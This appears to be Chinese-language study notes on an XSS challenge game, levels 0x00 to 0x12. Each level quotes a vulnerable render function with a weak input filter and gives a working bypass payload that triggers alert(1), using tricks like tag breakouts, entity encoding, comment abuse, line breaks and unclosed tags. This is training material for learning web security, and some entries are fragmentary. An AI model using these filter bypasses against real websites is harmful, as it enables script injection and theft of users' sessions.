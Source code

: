 
xss攻击
测试阶段都是以弹出alert(1)为准
标准语法
<script>alert(1)</script>


---------

0x00
function render (input) {
  return '<div>' + input + '</div>'
}

<script>alert(1)</script>

----------
0x01

</textarea> <script>alert(1)</script><textarea>

----------

0x02

function render (input) {
  return '<input type="name" value="' + input + '">'
}

<input type="name" value="  "><script>alert(1)</script><img    ">

-----------

0x03
function render (input) {
  //正则表达式
  const stripBracketsRe = /[   ()    ]/g
  input = input.replace(stripBracketsRe, '')
  return input
}

<script>alert`1`</script>

-------------

0x04
function render (input) {
  const stripBracketsRe = /[     ()`       ]/g
  input = input.replace(stripBracketsRe, '')
  return input
}

实体编码字符
<svg> 翻译官
把符号进行unicode转化

<svg><script>alert&#40;1&#41;</script>

------------
0x05

<!-- --> html的注释符
<!-- --!> 也可以当作注释符

--!> <script>alert(1)</script><!--

------------

0x06
function render (xxxxxx) {

  input = input.replace(/    auto|on.*=|>     /ig, '_')
  return `<input value=1 xxxxxxxxx type="text">`
}

正则表达式只抓一行的内容，但是html代码换行也可以执行
onmouseover
="alert(1)"

-------------
0x07

function render (input) {
  const stripTagsRe = /      <\/?[^>]+>      /gi

  input = input.replace(stripTagsRe, '')
  return `<article>${input}</article>`
}

所有标签，只让写左标签，右标签一加上，就没了
前端单标签可以只写左标签，不写右标签

<img src=x onerror="alert(1)"

---------------

0x08

function render (src) {
  src = src.replace(/    <\/style>    /ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}

前端的后标签可以换行书写，不影响效果

dfdfdfdfdfdfdfdf</style
><script>alert(1)</script>

-----------------

0x09

function render (input) {
  let domainRe = /     ^https?:\/\/www\.segmentfault\.com     /
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}

http://www.segmentfault.com" onload="alert(1) 
http://www.segmentfault.com"></script><img src=x onerror="alert(1)

<script src="http://www.segmentfault.com"></script><img src=x onerror="alert(1) "></script>

------------------
0x0A-C 出不来结果，现代的浏览器一般都不允许这种语法

http://www.segmentfault.com@http://127.0.0.1/abc.js

0x0B
所有输入内容都变为大写
windows不区分大小写，linux严格区分

http://www.segmentfault.com@http://127.0.0.1/ABC.JS

0x0C
<scriscriptpt src="http://127.0.0.1/ABC.JS"></scscriptript>

----------------
0x0d
function render (input) {
  input = input.replace(/[     </"'      ]/g, '')
  return `
    <script>
          // alert('xxxxxxxxx
          alert(1)
          -->')
    </script>
  `
}

xxxxxx
alert(1)
-->

-----------------

0x0e
function render (input) {
  input = input.replace(/      <([a-zA-Z])      /g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}

如果目标把我们所有的输入都大写了，肯定不能使用js语法（大小写敏感）

英文字母可以使用古英文代替

------------------
0x0f

<img src onerror="console.error('  ');alert(1)//  ')">

-----------------

0x10

<script>
  window.data = "haha";alert(1)

</script>

js赋值和php类似，如果两个语句不在一行，行尾加不加分号无所谓，如果一行，需要使用;间隔

---------------

0x11

<script>
  var url = 'javascript:console.log("xxxxx ");alert(1);//   ")'
  var a = document.createElement('a')
  a.href = url
  document.body.appendChild(a)
  a.click()
</script>

--------------

0x12

<script>console.log("fdfdfdfdfd\\ ");alert(1);// ");</script>

fdfdfdfdfd\");alert(1);//



